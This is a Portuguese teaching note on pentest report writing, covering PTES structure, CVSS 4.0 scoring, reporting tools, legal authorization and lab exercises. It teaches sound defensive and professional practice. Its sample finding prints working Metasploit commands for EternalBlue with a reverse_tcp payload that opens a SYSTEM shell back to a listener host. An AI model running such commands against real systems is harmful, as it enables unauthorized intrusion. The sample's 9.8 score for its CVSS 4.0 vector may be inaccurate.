


# Documentação / Report

> [!quote] Comunicando Resultados
> *Um pentest só tem valor se os resultados forem comunicados de forma clara e acionável.*

---

## 📋 Checklist Técnico

### Pré-Pentest

> [!tip] Preparação

- [ ] Definição do alvo e escopo
- [ ] Criar uma pasta para o pentest
- [ ] Direcionar saída dos comandos para arquivos na pasta

### Ferramentas de Coleta

- [ ] dnsenum
- [ ] wafw00f
- [ ] whois
- [ ] nmap (hosts e portas)
- [ ] nikto
- [ ] gobuster/dirb

---

## 📄 Estrutura do Relatório

> [!success] Checklist da Documentação

| Seção | Conteúdo |
|-------|----------|
| **1. Capa** | Título, data, classificação |
| **2. Identificação** | Dados do profissional/empresa |
| **3. Sumário Executivo** | Resumo para gestores (não técnico) |
| **4. Metodologia** | Ferramentas e técnicas utilizadas |
| **5. Vulnerabilidades** | Lista detalhada com criticidade |
| **6. Conclusão** | Avaliação geral da segurança |
| **7. Recomendações** | Ações de remediação |

---

## 🗂️ Estrutura Completa de um Relatório Profissional (Padrão PTES 2026)

O **PTES (Penetration Testing Execution Standard)** define a estrutura mais consolidada da indústria para relatórios de pentest. Um relatório profissional é composto por dois grandes blocos com propósitos distintos: o **Sumário Executivo** (para diretores e gestores) e o **Relatório Técnico** (para engenheiros e times de TI/segurança). Nunca misture os dois públicos em uma mesma seção.

| Seção | Público | Conteúdo Detalhado |
|-------|---------|-------------------|
| **Capa** | Todos | Nome do cliente, escopo, data, consultor, classificação de confidencialidade |
| **Sumário Executivo** | Diretores, C-Level | Postura geral de risco, achados mais críticos em linguagem de negócio, impacto potencial estimado, recomendações estratégicas prioritárias |
| **Escopo e Limitações** | Gestores, TI | IPs/hosts testados, período, tipo de teste (caixa-preta/branca/cinza), o que ficou fora do escopo, restrições operacionais |
| **Resumo de Achados** | Todos | Tabela consolidada com todos os findings, severidade (CVSS) e status de remediação |
| **Metodologia** | TI, Auditores | Padrão adotado (PTES, OWASP, NIST SP 800-115), fases, ferramentas usadas |
| **Achados Detalhados** | Técnicos | Um bloco por vulnerabilidade: título, CVSS, descrição, PoC, impacto, remediação |
| **Roadmap de Remediação** | Gestores, TI | Priorização por criticidade, prazos sugeridos, custo/esforço estimado |
| **Conclusão** | Todos | Avaliação geral da maturidade de segurança, próximos passos |
| **Apêndices** | Técnicos | Logs brutos, scripts utilizados, saída completa de ferramentas, glossário |

### Diagrama: Fluxo do Relatório Profissional



### Diagrama: Achado para Score e Remediação



---

## 🔧 Modelo de Relatório

> [!info] Template Disponível

[📄 Modelo de Documentação de um Pentest](https://docs.google.com/document/d/1T2NA_jyfU24Ssg8XRUbPNABIRpysIjD-HuzvV7Z20HU/edit?usp=sharing)

**Como usar:**
1. Clique em **Arquivo**
2. Selecione **Fazer uma cópia**
3. Edite no seu Google Drive ou baixe para edição offline

---

## 📊 Classificação de Vulnerabilidades

> [!warning] Níveis de Criticidade

| Nível | CVSS | Descrição |
|-------|------|-----------|
| **Crítico** | 9.0 - 10.0 | Exploração imediata, alto impacto |
| **Alto** | 7.0 - 8.9 | Fácil exploração, impacto significativo |
| **Médio** | 4.0 - 6.9 | Exploração moderada, impacto limitado |
| **Baixo** | 0.1 - 3.9 | Difícil exploração, baixo impacto |
| **Info** | 0.0 | Informacional, sem impacto direto |

---

## 🧮 CVSS 4.0: O Novo Padrão de Pontuação (2023-2026)

O **Common Vulnerability Scoring System 4.0** (CVSS 4.0) foi publicado pelo FIRST em novembro de 2023 e é o padrão atual para pontuação de vulnerabilidades em relatórios profissionais de pentest. Substitui o CVSS 3.1 com maior granularidade e métricas mais realistas.

### Grupos de Métricas do CVSS 4.0

| Grupo | Descrição | Quando Usar |
|-------|-----------|-------------|
| **Base** | Características intrínsecas da vulnerabilidade | Sempre (obrigatório) |
| **Threat (Ameaça)** | Maturidade do exploit disponível publicamente | Sempre que houver exploit conhecido |
| **Environmental** | Ajuste conforme o ambiente do cliente | Deixar para o cliente ajustar |
| **Supplemental** | Contexto adicional (automação, recuperação) | Opcional, para maior precisão |

### Principais Métricas Base do CVSS 4.0

| Código | Métrica | Valores Possíveis |
|--------|---------|------------------|
| **AV** | Attack Vector (Vetor de Ataque) | Network (N), Adjacent (A), Local (L), Physical (P) |
| **AC** | Attack Complexity (Complexidade) | Low (L), High (H) |
| **AT** | Attack Requirements (Novidade em 4.0) | None (N), Present (P) |
| **PR** | Privileges Required (Privilégios) | None (N), Low (L), High (H) |
| **UI** | User Interaction (Interação) | None (N), Passive (P), Active (A) |
| **VC/VI/VA** | Confidentiality/Integrity/Availability do sistema vulnerável | High (H), Low (L), None (N) |
| **SC/SI/SA** | Impacto em sistemas subsequentes (novidade em 4.0) | High (H), Low (L), None (N) |

> [!important] CVSS 4.0 vs 3.1
> No CVSS 3.1 existia o conceito de "Scope Changed". No 4.0, isso foi substituído pelas métricas **SC/SI/SA** (impacto em sistemas subsequentes), o que permite scoring muito mais preciso em ataques de pivotamento e movimentação lateral, cenários muito comuns em pentests reais.

**Calculadora oficial:** [https://www.first.org/cvss/calculator/4.0](https://www.first.org/cvss/calculator/4.0)

---

## 🗒️ Modelo Completo de um Finding Profissional

Um **finding** (achado) é a unidade básica do relatório técnico. Cada vulnerabilidade identificada e explorada deve ser documentada com a estrutura abaixo. Sem evidência, o finding não existe; sem remediação, o relatório não tem valor.

```
==========================================================
FINDING: Execução Remota de Código via Serviço SMB Exposto
==========================================================

IDENTIFICADOR: FINDING-03
SEVERIDADE:    CRÍTICO
CVSS 4.0:      9.8
VETOR CVSS:    CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:H/VI:H/VA:H/SC:H/SI:H/SA:H
STATUS:        Aberto

----------------------------------------------------------
DESCRIÇÃO
----------------------------------------------------------
O serviço SMB (Server Message Block) na porta 445/TCP do
host 192.168.10.15 (WIN-SRV-DC01) está exposto à rede
interna sem filtragem e é vulnerável ao exploit EternalBlue
(MS17-010), que permite execução de código arbitrário sem
autenticação prévia.

A vulnerabilidade existe porque o host não aplicou o patch
de segurança MS17-010 da Microsoft, disponível desde março
de 2017. O serviço responde ao protocolo SMBv1 (legado),
que não deveria estar ativo em ambientes modernos.

----------------------------------------------------------
EVIDÊNCIA / PROVA DE CONCEITO (PoC)
----------------------------------------------------------
Ambiente de teste autorizado. Nenhum dado real foi acessado.

[1] Enumeração inicial com nmap:
    $ nmap -p 445 --script smb-vuln-ms17-010 192.168.10.15

    Saída:
    | smb-vuln-ms17-010:
    |   VULNERABLE:
    |   Remote Code Execution vulnerability in Microsoft SMBv1
    |     State: VULNERABLE
    |     IDs:  CVE:CVE-2017-0143
    |     Risk factor: HIGH

[2] Exploração via Metasploit Framework:
    msf6 > use exploit/windows/smb/ms17_010_eternalblue
    msf6 exploit(...) > set RHOSTS 192.168.10.15
    msf6 exploit(...) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
    msf6 exploit(...) > set LHOST 192.168.10.100
    msf6 exploit(...) > run

    [*] Started reverse TCP handler on 192.168.10.100:4444
    [+] 192.168.10.15:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
    [+] 192.168.10.15:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-
    [+] 192.168.10.15:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
    [*] Meterpreter session 1 opened

[3] Verificação de privilégios:
    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM

    [Screenshot: metasploit_win_srv_dc01_sistema.png]

----------------------------------------------------------
IMPACTO
----------------------------------------------------------
Comprometimento total do servidor WIN-SRV-DC01 com
privilégios de SYSTEM (maior nível possível no Windows).
Um atacante poderia:
  - Extrair todos os hashes de senhas do Active Directory
  - Criar contas administrativas persistentes
  - Usar o servidor como ponto de pivotamento para a rede
  - Criptografar arquivos (ransomware) ou exfiltrar dados
  - Comprometer todos os demais hosts que confiam no DC

----------------------------------------------------------
REMEDIAÇÃO
----------------------------------------------------------
Prioridade: IMEDIATA (prazo sugerido: 24-48 horas)

1. PATCH OBRIGATÓRIO: Aplicar Microsoft Security Bulletin
   MS17-010 (KB4012212) em todos os sistemas Windows.
   URL: https://support.microsoft.com/kb/4012212

2. DESATIVAR SMBv1: Via PowerShell (executar como Admin):
   Set-SmbServerConfiguration -EnableSMB1Protocol $false

3. BLOQUEIO DE FIREWALL: Bloquear portas 445/TCP e 139/TCP
   na borda e entre VLANs. SMB não deve ser exposto
   para fora da rede de gerenciamento.

4. SEGMENTAÇÃO: Isolar o controlador de domínio em VLAN
   de gerenciamento, acessível apenas por hosts autorizados.

5. MONITORAMENTO: Configurar alertas de IDS/SIEM para
   tentativas de conexão SMB oriundas de hosts não
   autorizados.

----------------------------------------------------------
REFERÊNCIAS
----------------------------------------------------------
- CVE-2017-0143: https://nvd.nist.gov/vuln/detail/CVE-2017-0143
- MS17-010: https://docs.microsoft.com/security-updates/...
- CVSS Calculator: https://www.first.org/cvss/calculator/4.0
==========================================================
```

> [!tip] Boas Práticas no Finding
> - Nunca use dados reais de clientes em exemplos ou apresentações
> - O campo "Evidência" é obrigatório; sem evidência a vulnerabilidade não pode ser corrigida adequadamente
> - A seção "Impacto" deve sempre responder: "o que um atacante real conseguiria com isso?"
> - A seção "Remediação" deve ser acionável e específica, não genérica como "aplicar patches"

---

## 📚 Exemplos e Modelos

> [!tip] Repositório de Referências

| Recurso | Descrição |
|---------|-----------|
| [[Recursos/Segurança da informação/Documentação Report/20172S_SILVAFelipeLeonardoTeixeira_OD0264.pdf\|Exemplo Acadêmico]] | Trabalho de conclusão sobre pentest |
| [PrimoConnect Sample](https://pentestreports.com/reports/PrimoConnect/SAMPLE+Security+Testing+Findings.pdf) | Relatório comercial de exemplo |
| [Offensive Security Sample](https://www.offensive-security.com/reports/sample-penetration-testing-report.pdf) | Modelo da Offensive Security |

![[Recursos/Segurança da informação/Documentação Report/documentacao-report.png|Modelo de Relatório de Pen Test]]

---

## 🛠️ Ferramentas de Documentação

> [!info] Opções para Relatórios

| Ferramenta | Tipo | Descrição |
|------------|------|-----------|
| **Dradis** | Open Source | Framework de documentação |
| **Faraday** | Open Source | IDE para pentests |
| **PwnDoc** | Open Source | Gerador de relatórios em DOCX |
| **Serpico** | Open Source | Relatórios colaborativos |
| **Cherry Tree** | Notes | Organização hierárquica |
| **Obsidian** | Notes | Markdown com links |
| **SysReptor** | Open Source / Cloud | Relatórios profissionais em HTML/PDF com colaboração em tempo real |

---

## 🆕 Ferramentas Modernas de Report: SysReptor e PwnDoc (2025-2026)

O mercado de ferramentas de relatório evoluiu significativamente. As duas opções open-source mais adotadas por profissionais em 2025-2026 são o **SysReptor** e o **PwnDoc**, cada um com abordagem diferente.

### SysReptor

O SysReptor é uma plataforma completa de relatórios de pentest, escrita em HTML/CSS com renderização para PDF. Permite edição colaborativa em tempo real, criptografia dos dados em repouso, histórico de versões, arquivamento criptografado e notetaking integrado.

**Características principais:**
- Relatórios escritos em Markdown, exportados como PDF profissional
- Suporte a templates customizáveis (OSCP, OSEP, CREST, etc.)
- Auto-hospedado via Docker ou disponível como serviço cloud
- Plugin system aberto para extensões personalizadas
- Interface web moderna, colaborativa

**Como instalar (auto-hospedado):**
```bash
git clone https://github.com/Syslifters/sysreptor.git
cd sysreptor
docker compose up -d
# Acesso: http://localhost:8080
```

**Link:** [https://sysreptor.com](https://sysreptor.com) | [Documentação](https://docs.sysreptor.com/)

### PwnDoc

O PwnDoc é um gerador de relatórios de pentest que foca na produção de arquivos DOCX customizáveis. Permite criar e reusar findings a partir de uma biblioteca centralizada, facilitando relatórios consistentes para múltiplos engajamentos.

**Características principais:**
- Geração de relatórios em formato DOCX (Word)
- Biblioteca de vulnerabilidades reutilizável entre projetos
- Interface web simples para preenchimento de findings
- Auto-hospedado via Docker
- Templates editáveis em DOCX

**Como instalar:**
```bash
git clone https://github.com/pwndoc/pwndoc.git
cd pwndoc
docker compose up -d
# Acesso: http://localhost:8080
```

**Link:** [https://github.com/pwndoc/pwndoc](https://github.com/pwndoc/pwndoc)

### Comparativo Rápido

| Critério | SysReptor | PwnDoc |
|----------|-----------|--------|
| **Formato de saída** | PDF profissional | DOCX (Word) |
| **Editor** | Markdown + Web | Formulário Web |
| **Colaboração** | Sim, em tempo real | Limitada |
| **Templates** | HTML/CSS (flexível) | DOCX |
| **Biblioteca de findings** | Sim | Sim |
| **Criptografia** | Sim (em repouso) | Não nativo |
| **Deploy** | Docker / Cloud | Docker |
| **Melhor para** | Reports PDF profissionais | Reports em Word corporativos |

---

## ✅ Boas Práticas

> [!success] Dicas para um Bom Relatório

1. **Seja claro:** evite jargões desnecessários
2. **Inclua evidências:** screenshots, logs, comandos
3. **Priorize:** vulnerabilidades mais críticas primeiro
4. **Seja objetivo:** fatos, não opiniões
5. **Recomende soluções:** não apenas problemas
6. **Dois públicos:** sumário executivo + detalhes técnicos

---

## 📝 Boas Práticas Avançadas de Relatório Profissional

### Sumário Executivo vs. Relatório Técnico: a divisão fundamental

O **sumário executivo** (1 a 2 páginas) é escrito para quem toma decisões orçamentárias e estratégicas, mas não tem formação técnica em segurança. Deve conter: postura geral de risco (ex.: "A organização apresenta risco ALTO"), os 2 ou 3 achados mais críticos em linguagem de negócio (ex.: "um atacante externo poderia acessar o banco de dados de clientes sem senha"), impacto financeiro e reputacional estimado, e as recomendações mais urgentes.

O **relatório técnico** é para engenheiros, analistas de SOC e times de infraestrutura. Deve conter todos os findings com evidência técnica, vetores de ataque detalhados, comandos utilizados, capturas de tela e passos exatos de remediação.

**Regra de ouro:** O CEO não deve ler os apêndices. O analista de TI não deve precisar do sumário para saber o que corrigir.

### Escopo e Limitações: por que documentar

Documentar o escopo com precisão protege tanto o profissional quanto o cliente. Inclua:

- Lista exata de IPs, hostnames, aplicações e ambientes testados
- O que ficou explicitamente fora do escopo (ex.: "sistemas de produção no horário de 08h às 18h foram excluídos")
- Tipo de teste: caixa-preta (sem informação prévia), caixa-branca (acesso total ao código/infra), caixa-cinza (parcialmente informado)
- Período exato do engajamento (datas e horários)
- Restrições impostas pelo cliente (ex.: "sem DoS", "sem engenharia social")

### Classificação de Risco: além do CVSS

O CVSS fornece a severidade técnica de uma vulnerabilidade de forma isolada. No relatório, o risco real deve combinar a severidade CVSS com o contexto do cliente:

- Um servidor crítico de produção com CVSS 7.5 pode ter risco maior que um sistema de homologação com CVSS 9.8
- Considere também: probabilidade de exploração real, dados sensíveis expostos, impacto regulatório (LGPD, PCI-DSS, ISO 27001)
- Use a tabela de severidade como ponto de partida, não como resultado final

### Linguagem e Apresentação

- Use linguagem ativa e direta: "O atacante pode executar código arbitrário" em vez de "Código arbitrário pode ser executado"
- Numere todos os findings para facilitar rastreabilidade (FINDING-01, FINDING-02...)
- Inclua um campo de "Status" em cada finding (Aberto, Em Correção, Corrigido, Aceito pelo cliente)
- Adicione um rodapé com nível de classificação do documento em cada página (Confidencial, Restrito, etc.)
- Nunca compartilhe o relatório por canal não criptografado (evite email sem PGP/S-MIME)

---

## ⚖️ Aspecto Legal: Pentest Autorizado e o Art. 154-A

> [!warning] Contexto Legal Obrigatório

Todo pentest deve ser realizado com **autorização expressa e documentada** do titular do sistema. A falta de autorização transforma a atividade em crime.

### Art. 154-A do Código Penal Brasileiro (Lei 12.737/2012)

A Lei 12.737 de 30 de novembro de 2012 (conhecida como Lei Carolina Dieckmann) incluiu no Código Penal o crime de **invasão de dispositivo informático**:

> *"Invadir dispositivo informático alheio, conectado ou não à rede de computadores, mediante violação indevida de mecanismo de segurança e com o fim de obter, adulterar ou destruir dados ou informações sem autorização expressa ou tácita do titular do dispositivo ou instalar vulnerabilidades para obter vantagem ilícita."*
>
> **Pena:** reclusão de 1 a 4 anos e multa.

O elemento central que distingue o pentest profissional do crime é a **autorização**: o profissional de segurança que realiza testes com autorização expressa do titular não incorre no tipo penal, pois a conduta não é "indevida". Essa autorização deve existir do início ao fim do engajamento e o profissional deve se ater estritamente aos limites acordados.

### Documentação Legal Mínima para um Pentest

| Documento | Finalidade |
|-----------|-----------|
| **Contrato de prestação de serviços** | Define responsabilidades e escopo jurídico |
| **Termo de autorização assinado** | Evidência da autorização expressa do titular |
| **NDA (Acordo de Confidencialidade)** | Protege dados do cliente acessados durante o teste |
| **Regras de engajamento (RoE)** | Define limites técnicos e operacionais do teste |
| **Relatório final assinado** | Entrega formal dos resultados, com ciência do cliente |

> [!danger] Sem autorização = Crime
> Mesmo que você identifique uma vulnerabilidade em um sistema "acidentalmente" ou "com boas intenções", acessar sistemas sem autorização é crime previsto no art. 154-A do CP. O relatório sem autorização não tem valor legal e pode ser usado como prova contra você.

---

## 🧪 Atividades Práticas

> [!example] 🧪 Atividade 1: Escrever um Finding Completo com CVSS 4.0

**Objetivo:** Documentar uma vulnerabilidade real explorada no laboratório no formato profissional completo.

**Ferramenta:** Calculadora CVSS 4.0 oficial em [https://www.first.org/cvss/calculator/4.0](https://www.first.org/cvss/calculator/4.0)

**Passo a passo:**

1. Escolha uma vulnerabilidade que você explorou nas aulas anteriores no lab (sugestão: SQLi, RCE via serviço não atualizado, credencial padrão, diretório exposto via gobuster)
2. Acesse a calculadora em [https://www.first.org/cvss/calculator/4.0](https://www.first.org/cvss/calculator/4.0)
3. Preencha as métricas Base (AV, AC, AT, PR, UI, VC, VI, VA, SC, SI, SA) com base na vulnerabilidade real
4. Copie o vetor gerado (ex.: `CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:H/VI:H/VA:H/SC:N/SI:N/SA:N`) e o score numérico
5. Preencha o modelo de finding (veja a seção acima) com:
   - Título descritivo e objetivo
   - Severidade (Crítico/Alto/Médio/Baixo) baseada no score
   - Descrição clara do problema (sem jargões desnecessários)
   - Evidência: comandos exatos que você rodou e a saída obtida
   - Impacto: o que um atacante real conseguiria?
   - Remediação: passos específicos e acionáveis

**Resultado observável:** Um bloco de finding completo pronto para ser inserido em um relatório de pentest profissional. Compare seu finding com um colega: a remediação está específica o suficiente para um administrador de sistema seguir sem precisar te perguntar nada?

---

> [!example] 🧪 Atividade 2: Gerar um Relatório Completo no SysReptor (ou PwnDoc)

**Objetivo:** Usar uma ferramenta profissional de geração de relatórios para produzir um PDF de pentest completo a partir dos findings do laboratório.

**Ferramenta principal:** SysReptor (auto-hospedado via Docker) ou PwnDoc

**Passo a passo (SysReptor):**

1. Clone e suba o SysReptor localmente:
   ```bash
   git clone https://github.com/Syslifters/sysreptor.git
   cd sysreptor
   docker compose up -d
   ```
2. Acesse `http://localhost:8080` e crie um novo projeto de pentest
3. Preencha os metadados: nome do cliente (use "Cliente Fictício Ltda."), datas, consultor, escopo
4. Adicione pelo menos 2 findings ao relatório, usando o formato da atividade anterior. Inclua:
   - Título, CVSS score e vetor
   - Descrição, evidência (cole o output dos comandos) e remediação
5. Escreva um sumário executivo de 3 a 5 parágrafos direcionado a um diretor de TI não técnico
6. Exporte o relatório em PDF

**Resultado observável:** Um arquivo PDF de relatório de pentest profissional com capa, sumário executivo, findings detalhados e seção de remediação. Avalie: alguém que não fez o teste consegue entender o problema e saber o que corrigir lendo apenas o relatório?

---

> [!example] 🧪 Atividade 3: Calcular o CVSS 4.0 de Três Vulnerabilidades Distintas

**Objetivo:** Praticar o scoring de vulnerabilidades com diferentes perfis de risco para internalizar as métricas do CVSS 4.0.

**Ferramenta:** [https://www.first.org/cvss/calculator/4.0](https://www.first.org/cvss/calculator/4.0)

**Vulnerabilidades para calcular:**

**Vuln A: Apache Log4Shell (CVE-2021-44228)**
Execução remota de código via JNDI injection no Log4j. O atacante remoto, sem autenticação, envia uma string maliciosa em qualquer campo de log e executa código arbitrário no servidor com os privilégios do processo Java.

**Vuln B: Credencial padrão em painel de administração web**
Interface de administração do roteador acessível via navegador na rede local, com usuário `admin` e senha `admin` (padrão de fábrica). Qualquer host na mesma rede pode fazer login sem restrição.

**Vuln C: Cross-Site Scripting (XSS) Refletido em campo de busca**
Parâmetro `?q=` de um campo de busca não sanitizado reflete JavaScript arbitrário. Um atacante precisa convencer a vítima a clicar em um link malicioso. O script pode roubar cookies de sessão, mas não tem acesso ao sistema operacional.

**Passo a passo:**
1. Para cada vulnerabilidade, preencha todas as métricas Base na calculadora
2. Anote o score e o vetor CVSS gerado
3. Justifique sua escolha para cada métrica em 1 frase (ex.: "AT=None porque não há condição especial para o ataque")
4. Compare os três scores: faz sentido a diferença entre eles?

**Resultado observável:** Uma tabela com os 3 vetores CVSS 4.0, scores numéricos, severidade e justificativa das escolhas mais controversas. Discuta com a turma: onde você e seus colegas discordaram nos valores de métricas? Por quê?

---

## 🗓️ Roadmap de Remediação: Priorizando Ações

Após identificar e classificar todas as vulnerabilidades, o relatório profissional deve incluir um roadmap de remediação que ajude o cliente a priorizar ações com base em esforço, impacto e urgência.

### Diagrama: Matriz de Priorização

```mermaid
quadrantChart
    title Priorização de Remediação
    x-axis Baixo Esforço --> Alto Esforço
    y-axis Baixo Impacto --> Alto Impacto
    quadrant-1 Fazer Agora
    quadrant-2 Planejar
    quadrant-3 Avaliar
    quadrant-4 Considerar
    Patch SMB (MS17-010): [0.2, 0.95]
    Desativar SMBv1: [0.15, 0.85]
    Trocar senha padrão admin: [0.1, 0.75]
    Configurar WAF: [0.65, 0.80]
    Segmentação de rede: [0.75, 0.90]
    Sanitizar inputs XSS: [0.35, 0.55]
    Atualizar TLS 1.0: [0.40, 0.50]
    Revisar logs SIEM: [0.55, 0.45]
```

### Tabela de Roadmap por Prazo

| Prazo | Prioridade | Exemplos Típicos |
|-------|-----------|-----------------|
| **Imediato (24-48h)** | Crítico | RCE sem autenticação, credencial padrão em sistema exposto |
| **Curto prazo (7 dias)** | Alto | Serviços vulneráveis com patch disponível, senhas fracas em sistemas internos |
| **Médio prazo (30 dias)** | Médio | Configurações inseguras, headers HTTP ausentes, TLS desatualizado |
| **Próximo ciclo (90 dias)** | Baixo | Hardening adicional, melhorias de monitoramento, revisões de política |
| **Monitorar** | Informacional | Informações de versão expostas, banners de serviço, enumeração de usuários |

---

> [!note] 📚 Fontes (2026)
> - [PTES Reporting Standard](http://www.pentest-standard.org/index.php/Reporting): Penetration Testing Execution Standard, seção de Relatório
> - [PTES Technical Guidelines](http://www.pentest-standard.org/index.php/PTES_Technical_Guidelines): Diretrizes técnicas completas
> - [SysReptor Documentation](https://docs.sysreptor.com/): Plataforma open-source de relatórios de pentest
> - [SysReptor GitHub](https://github.com/Syslifters/sysreptor): Repositório oficial
> - [PwnDoc GitHub](https://github.com/pwndoc/pwndoc): Gerador de relatórios DOCX open-source
> - [CVSS 4.0 Calculator (FIRST)](https://www.first.org/cvss/calculator/4.0): Calculadora oficial CVSS 4.0
> - [CVSS 4.0 Specification](https://www.first.org/cvss/v4.0/): Especificação completa CVSS 4.0
> - [CVSS v4.0 Implementation Guide](https://www.first.org/cvss/v4.0/implementation-guide): Guia de implementação FIRST
> - [Lei 12.737/2012 (Art. 154-A CP)](https://www.jusbrasil.com.br/artigos/crime-de-invasao-de-dispositivo-informatico-artigo-154-a-cp/153070617): Lei Carolina Dieckmann, crime de invasão de dispositivo informático
> - [Pentest Report Guide 2026 (Pentest Mindmap)](https://pentestmindmap.com/pentest-report): Guia prático de relatório de pentest 2026
> - [How to Write a Penetration Testing Report 2025](https://www.pentestreportai.com/guides/pentest-report-writing): Guia completo de escrita de relatório
> - [CVSS Calculator Cheat Sheet 2026 (OffSecKit)](https://offseckit.com/blog/cvss-calculator-guide): Guia comparativo CVSS 3.1 vs 4.0
